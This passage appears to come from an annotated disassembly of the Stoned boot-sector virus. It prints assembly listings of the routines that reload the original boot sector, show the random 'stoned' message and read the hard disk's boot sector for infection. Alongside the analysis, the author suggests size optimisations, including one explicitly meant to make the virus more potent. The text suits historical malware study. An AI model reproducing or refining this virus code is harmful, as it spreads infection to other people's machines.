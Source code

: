If the virus is booting from a floppy, it does the extra work of infecting any fixed-disk on the system. There is also a random chance of getting the Stoned 
message on the screen if the computer is booting from a floppy. We'll see that code in a moment.

Notice the instruction at 00E4. AX is used to pass information into the INT13; AH contains the sub-command and AL contains some additional data. Using immediate 
MOVs to load parameters into registers for INT calls is second nature to 8x86 programmers, and we generally find immediate MOVs before any INTx instruction. 
However, at 00E4 the programmer could have saved a byte by doing an "XOR AX,AX" (which results in 0000). That brings our code savings up to 10 bytes.

```
; We are booting up from a floppy - have a look at any local fixed-disks.
0106: B9 03 00          MOV     CX,$0003                ; Cyl 0, Sec 3 
0109: BA 00 01          MOV     DX,$0100                ; Head 1, Drive 0
010C: CD 13             INT     $13                     ; Load the original boot sector
010E: 72 3E             JB      $014E                   ; Error -- nothing we can do!
0110: 26F6066C0407      TEST    BYTE PTR [ES:$046C],$07 ; *8 Low byte of timer (random)
0116: 75 12             JNZ     $012A                   ; Skip over 7/8 of the time
```

At 0106, the virus loads the original bootsector from the floppy. The conditional jump at 010E checks for any access errors, but this is really just a waste 
of space. If the original bootsector can't be loaded, the system will not come up no matter what the virus does. The jump transfers execution to 0000:7C00, 
which still contains the virus sector. An endless loop begins.

Error checking is only useful if you have the ability to recover from the error. Since there isn't much in the way of recovery at this point, I would have 
simply left out the two-byte conditional jump at 010E. But there is an even better reason to leave out the check: leaving it out makes the virus more potent. 
The code following this check tries to infect the fixed-disk -- which might work even if the floppy isn't responding. By handling the error at 010E, the virus 
rules out a potential infection. Leaving out the two-byte conditional jump brings our savings up to 12 bytes.

If booting from a floppy, the virus checks the low byte of the ever-changing clock-tick in memory at 0000:046C. A hardware clock interrupts the CPU several 
times a second, and the clock-handler routine increments the word at 0000:046C. There is no way to know what the clock-tick will be at this point -- this is 
essentially a random number. The test at 0116 will fall through to the next section of code if the lower three bits of the timer are all 0's. If you boot your 
PC from an infected floppy, you will see the famous "Your PC is now stoned!" message on average of once every eight boot-ups.

```
; 1 out of every 8 infected hard drives will see this message at the boot up where
; they are infected.
0118: BE 89 01          MOV     SI,$0189                ; Message
011B: 0E                PUSH    CS                      ; Set DS ...
011C: 1F                POP     DS                      ; ... to virus segment
011D: AC                LODSB                           ; Get byte in message
011E: 0A C0             OR      AL,AL                   ; Last loaded?
0120: 74 08             JZ      $012A                   ; Yes ... done with message
0122: B4 0E             MOV     AH,$0E                  ; Teletype mode
0124: B7 00             MOV     BH,$00                  ; Base of screen
0126: CD 10             INT     $10                     ; Print character
0128: EB F3             JMP     $011D                   ; Do all characters
;
012A: 0E                PUSH    CS                      ; Set ES ...
012B: 07                POP     ES                      ; ... to CS
012C: B8 01 02          MOV     AX,$0201                ; Read current boot from C:
012F: BB 00 02          MOV     BX,$0200                ; Buffer after virus
0132: B1 01             MOV     CL,$01                  ; Cyl = 0 (still), Sec = 1
0134: BA 80 00          MOV     DX,$0080                ; Head = 0, Drive = 80
0137: CD 13             INT     $13                     ; Read current boot sector
0139: 72 13             JB      $014E                   ; Error ... skip it
```